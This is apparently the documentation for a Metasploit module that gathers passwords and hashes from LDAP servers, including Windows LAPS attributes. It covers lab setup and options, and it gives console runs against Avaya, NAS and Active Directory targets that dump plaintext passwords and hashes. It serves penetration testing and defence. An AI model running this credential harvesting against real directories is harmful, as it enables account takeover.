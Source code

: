 ## Vulnerable Application

### Description

This module will gather passwords and password hashes from a target LDAP server via multiple techniques including
Windows LAPS.

### Setup (OpenLDAP via Docker)

Tested in the wild.

You may eventually setup an intentionally insecure OpenLDAP server in docker.
The below OpenLDAP server does not have any ACL, therefore the hashPassword
attributes are readable by anonymous clients.

```
$ git clone https://github.com/HynekPetrak/bitnami-docker-openldap.git
$ cd bitnami-docker-openldap
$ docker-compose up -d
Creating bitnami-docker-openldap_openldap_1 ... done
```

```
msf6 auxiliary(gather/ldap_passwords) > rerun ldap://:@127.0.0.1:1389
[*] Reloading module...
[*] New in Metasploit 6.4 - This module can target a SESSION or an RHOST
[*] Discovered base DN: dc=example,dc=org
[*] The target LDAP server is not an Active Directory Domain Controller.
[*] Searching base DN: dc=example,dc=org
[+] Credentials (password) found in userpassword: user01:password1
[+] Credentials (password) found in userpassword: user02:password2
[*] Found 2 entries and 2 credentials in 'dc=example,dc=org'.
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(gather/ldap_passwords) >
```

### Setup (Windows LAPSv1)
1. Start with a Windows Domain Controller
2. Install all the programs from the applicable binary from https://www.microsoft.com/en-us/download/details.aspx?id=46899
3. Make sure the user account is a Schema Admin, reboot after joining the group
4. Set the Group Policy settings as noted in Section 3 of the “LAPS_OperationsGuide.docx” file
5. Run the UI as noted in Section 4, the LDAP attributes should be populated at this point

### Setup (Windows LAPSv2)
1. Start with a Windows Domain Controller that has the April 2023 security update installed
2. Follow the instructions from https://learn.microsoft.com/en-us/windows-server/identity/laps/laps-scenarios-windows-server-active-directory

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

### BASE_DN

If you already have the LDAP base DN, you may set it in this option.

### USER_ATTR

LDAP attribute to that contains the username. Defaults to the first attribute that exists in the search order
`sAMAccountName` (Active Directory), `uid` (OpenLDAP), `dn`.

### PASS_ATTR

LDAP attribute to take the password data from. This option will be added to the array of options the module always
searches for.

## Scenarios

### Avaya Communication Manager via anonymous bind

```
msf6 auxiliary(gather/ldap_passwords) > options

Module options (auxiliary/gather/ldap_passwords):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   BASE_DN                        no        LDAP base DN if you already have it
   PASS_ATTR     userPassword     no        Additional LDAP attribute(s) that contain password hashes
   READ_TIMEOUT  600              no        LDAP read timeout in seconds
   SSL           false            no        Enable SSL on the LDAP connection
   USER_ATTR                      no        LDAP attribute(s), that contains username


   Used when connecting via an existing SESSION:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   no        The session to run this module on


   Used when making a new connection via RHOSTS:

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   LDAPDomain                     no        The domain to authenticate to
   LDAPPassword                   no        The password to authenticate with
   LDAPUsername                   no        The username to authenticate with
   RHOSTS                         no        The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT         389              no        The target port
   THREADS       1                yes       The number of concurrent threads (max one per host)


View the full module info with the info, or info -d command.

msf6 auxiliary(gather/ldap_passwords) > set RHOSTS 192.0.2.1
RHOSTS => 192.0.2.1

msf6 auxiliary(gather/ldap_passwords) > run
[*] Discovered base DN: dc=vsp
[*] The target LDAP server is not an Active Directory Domain Controller.
[*] Searching base DN: dc=vsp
[+] Credentials found: cust:{SSHA}AZKja92fbuuB9SpRlHqaoXxbTc43Mzc2MDM1Ng==
[+] Credentials found: admin:{SSHA}AZKja92fbuuB9SpRlHqaoXxbTc43Mzc2MDM1Ng==
[*] Found 2 entries and 2 credentials in 'dc=vsp'.
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### NASDeluxe - NAS with Samba LM/NTLM hashes

```
msf6 auxiliary(gather/ldap_passwords) > set RHOSTS 192.0.2.1
RHOSTS => 192.0.2.1

msf5 auxiliary(gather/ldap_passwords) > run
[*] Running module against 192.0.2.1

[*] Discovered base DN: dc=server,dc=nas
[*] The target LDAP server is not an Active Directory Domain Controller.
[*] Searching base DN: dc=server,dc=nas
[+] Credentials found: admin:209C6174DA490CAEB422F3FA5A7AE634
[+] Credentials found: joe:58E8C758A4E67F34EF9C40944EB5535B
[*] Found 2 entries and 2 credentials in 'dc=server,dc=nas'.
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### Windows Server 2019 - LAPSv2 with Encryption
```
msf6 auxiliary(gather/ldap_passwords) > run ldap://msflab.local;smcintyre:Password1!@192.0.2.10
[*] Discovered base DN: DC=msflab,DC=local
[*] The target LDAP server is an Active Directory Domain Controller.
[*] Searching base DN: DC=msflab,DC=local
[+] Credentials (password) found in mslaps-encryptedpassword: Administrator:m8L3A.LcZ9!lnT (expires: 2025-03-08 17:22:57 UTC)
[*] Found 1 entries and 1 credentials in 'DC=msflab,DC=local'.
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(gather/ldap_passwords) >
```